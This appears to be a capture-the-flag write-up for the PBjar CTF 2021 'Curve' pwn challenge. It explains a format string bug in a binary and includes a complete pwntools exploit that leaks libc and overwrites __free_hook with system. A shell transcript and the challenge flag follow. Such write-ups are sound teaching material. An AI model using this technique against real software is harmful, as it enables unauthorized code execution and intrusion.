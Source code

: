 ## Curve

> Points: 398
>
> Solves: 28

### Description:
One of the hardest parts of making a contest is making sure that it has a good curve aka a good problem difficulty distribution. This lazily made problem was made to make the beginning pwn curve a little less steep. 

Connect with "nc 143.198.127.103 42004".

Author: Rythm

### Attachments:
```
curve.zip
```

## Analysis:

This binary can be input 3 times, the first time(`Input 1`) it is output with `puts`, the second time(`Input 2`) there is no output, and the third time(`Input 3`) it is displayed directly with `printf`. Therefore, there is a vulnerability of `FSB (Format String Bug)` in the third input.
However, since this binary is `Full RELRO`, `GOT` cannot be rewritten with `FSB`. The method of rewriting the return address with `FSB` does not have enough read input size.
Also, since the third input is written to the area allocated by `malloc` in the heap, the address that can be used by `FSB` cannot be specified.

```c
undefined8 main(void)

{
  char *__format;
  long in_FS_OFFSET;
  char local_98 [136];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setbuf(stdout,(char *)0x0);
  setbuf(stderr,(char *)0x0);
  __format = (char *)malloc(0x80);
  puts("Oh no! Evil Morty is attempting to open the central finite curve!");
  puts("You get three inputs to try to stop him.\n");
  puts("Input 1:");
  read(0,local_98,0xb0);
  puts(local_98);
  puts("Input 2:");
  read(0,local_98,0x80);
  puts("\nInput 3:");
  read(0,__format,0x80);
  printf(__format);　　　　　　　　　<=========== There is a `FSB` vulnerability here
  free(__format);
  puts("\nLol how could inputting strings stop the central finite curve.");
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

The result of checksec. We can see that it is `Full RELRO`.
```bash
$ checksec curve
[*] '/home/mito/CTF/PBjar_CTF_2021/Pwn_Curve/curve/curve'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Since the character string input in `Input 2` is output as `0x4141414141414141` at the 8th position of `Input 3`, We can see that the value of `index` is `8`.
```bash
Input 2:
AAAAAAAA

Input 3:
BBBBBBBB,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p
BBBBBBBB,0x55555555a2a0,0x80,0x7ffff7ef5e8e,0xa,0x7ffff7fc5be0,(nil),0x55555555a2a0,0x4141414141414141,0xa,(nil),(nil),(nil),(nil),(nil)

```

## Solution:

First, the libc address leak can be done by entering a `0x98` size string in` Input 1` to leak the address `__libc_start_main + 234`. We can calculate the base address of libc.

```bash
gdb-peda$ x/80gx 0x7fffffffdec0
0x7fffffffdec0:	0x0000000000000000	0x000055555555a2a0
0x7fffffffded0:	0x4141414141414141	0x4141414141414141
0x7fffffffdee0:	0x4141414141414141	0x0000000000000a61
0x7fffffffdef0:	0x0000000000000000	0x0000000000000000
0x7fffffffdf00:	0x0000000000000000	0x0000000000000000
0x7fffffffdf10:	0x0000000000f0b5ff	0x00000000000000c2
0x7fffffffdf20:	0x00007fffffffdf47	0x0000555555555325
0x7fffffffdf30:	0x0000000000000000	0x0000000000000000
0x7fffffffdf40:	0x00005555555552e0	0x00005555555550b0
0x7fffffffdf50:	0x00007fffffffe050	0x6b35ac597c192200
0x7fffffffdf60:	0x00005555555552e0	0x00007ffff7e2dd0a  <=== Leak this `0x00007ffff7e2dd0a (__ libc_start_main + 234)`
0x7fffffffdf70:	0x00007fffffffe058	0x0000000100000000
```

Shell startup uses the `free (__ format)` call at the end of the binary. I use FSB to write the address of the `system` function to `__free_hook`.
At this time, first write `/bin/sh` so that it is in the form of free ('/bin/sh; FSB string'). Then, when we call free (), it will be in the form of system (`/bin/sh; ...'), so we can start the shell.

Also, `Input 2` writes the address of `__free_hook`, and `INPUT 3` writes the character string of `FSB`. Since the input size of `Input 2` and` Input 3` is as large as `0x80`, we can write the same character string created by `fmtstr_payload` to `Input 2` and` Input 3` as shown below.

```python
index = 8
writes = {free_hook: system_addr}
buf = b"/bin/sh;" + fmtstr_payload(index+1, writes, numbwritten=8, write_size='short')
```

`fmtstr_payload` creates a string like the one below.
```bash
    00000000  2f 62 69 6e  2f 73 68 3b  25 36 35 30  39 36 63 25  │/bin│/sh;│%650│96c%│
    00000010  31 34 24 6c  6c 6e 25 33  33 31 39 39  63 25 31 35  │14$l│ln%3│3199│c%15│
    00000020  24 68 6e 25  33 30 36 39  33 63 25 31  36 24 68 6e  │$hn%│3069│3c%1│6$hn│
    00000030  70 8e fc f7  ff 7f 00 00  74 8e fc f7  ff 7f 00 00  │p···│····│t···│····│
    00000040  72 8e fc f7  ff 7f 00 00  0a                        │r···│····│·│
```

## Exploit code:
```python
from pwn import *

context(os='linux', arch='amd64')
#context.log_level = 'debug'

BINARY = './curve'
elf  = ELF(BINARY)

if len(sys.argv) > 1 and sys.argv[1] == 'r':
  HOST = "143.198.127.103"
  PORT = 42004
  s = remote(HOST, PORT)
  libc = ELF("./libc-2.31.so")
else:
  s = process(BINARY)
  libc = elf.libc
  #s = process(BINARY, env={'LD_PRELOAD': './libc-2.31.so'})
  #libc = ELF("./libc-2.31.so")

# libc leak
s.sendlineafter("Input 1:\n", "A"*0x98)
s.recvuntil("A"*0x98)
libc_leak = u64(s.recvuntil("\nI")[:-2] + b"\x00\x00")
libc_base = libc_leak - libc.sym.__libc_start_main - 234
free_hook = libc_base + libc.sym.__free_hook
system_addr = libc_base + libc.sym.system
print("libc_leak =", hex(libc_leak))
print("libc_base =", hex(libc_base))

index = 8

# Write system address in __free_hook to call system('/bin/sh')
writes = {free_hook: system_addr}
buf = b"/bin/sh;" + fmtstr_payload(index+1, writes, numbwritten=8, write_size='short')

s.sendlineafter("2:\n", buf)
s.sendlineafter("3:\n", buf)

s.interactive()
```

## Results:
```bash
mito@ubuntu:~/CTF/PBjar_CTF_2021/Pwn_Curve/curve$ python3 solve_fmtstr.py r
[*] '/home/mito/CTF/PBjar_CTF_2021/Pwn_Curve/curve/curve'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 143.198.127.103 on port 42004: Done
[*] '/home/mito/CTF/PBjar_CTF_2021/Pwn_Curve/curve/libc-2.31.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
libc_leak = 0x7f2d588ced0a
libc_base = 0x7f2d588a8000
[*] Switching to interactive mode
/bin/sh;
...
$ id
uid=1000(user) gid=1000(user) groups=1000(user)
$ ls -l
total 2028
lrwxrwxrwx   1 root root       7 Aug 27 07:16 bin -> usr/bin
drwxr-xr-x   2 root root    4096 Apr 15  2020 boot
drwxr-xr-x   5 root root     340 Sep 17 04:48 dev
drwxr-xr-x   1 root root    4096 Sep 17 04:48 etc
-rwxr-xr-x   1 root root      64 Sep 17 04:28 flag.txt
drwxr-xr-x   1 root root    4096 Sep 17 04:47 home
-rwxr-xr-x   1 root root  177928 Sep 17 04:28 ld-2.31.so
lrwxrwxrwx   1 root root       7 Aug 27 07:16 lib -> usr/lib
lrwxrwxrwx   1 root root       9 Aug 27 07:16 lib32 -> usr/lib32
lrwxrwxrwx   1 root root       9 Aug 27 07:16 lib64 -> usr/lib64
-rwxr-xr-x   1 root root 1839792 Sep 17 04:28 libc-2.31.so
lrwxrwxrwx   1 root root      10 Aug 27 07:16 libx32 -> usr/libx32
drwxr-xr-x   2 root root    4096 Aug 27 07:16 media
drwxr-xr-x   2 root root    4096 Aug 27 07:16 mnt
drwxr-xr-x   2 root root    4096 Aug 27 07:16 opt
dr-xr-xr-x 262 root root       0 Sep 17 04:48 proc
drwx------   2 root root    4096 Aug 27 07:27 root
drwxr-xr-x   5 root root    4096 Aug 27 07:27 run
lrwxrwxrwx   1 root root       8 Aug 27 07:16 sbin -> usr/sbin
drwxr-xr-x   2 root root    4096 Aug 27 07:16 srv
dr-xr-xr-x  13 root root       0 Sep 17 04:48 sys
drwxrwxrwt   1 root root    4096 Sep 17 04:38 tmp
drwxr-xr-x   1 root root    4096 Aug 27 07:16 usr
drwxr-xr-x   1 root root    4096 Aug 27 07:27 var
$ cat flag.txt
flag{n0w_y0ur3_3v1l_m0rty_t00_s00n3r_0r_l4t3r_w3_4ll_4r3_s4dg3}
```

## Reference:

https://inaz2.hatenablog.com/entry/2014/04/20/041453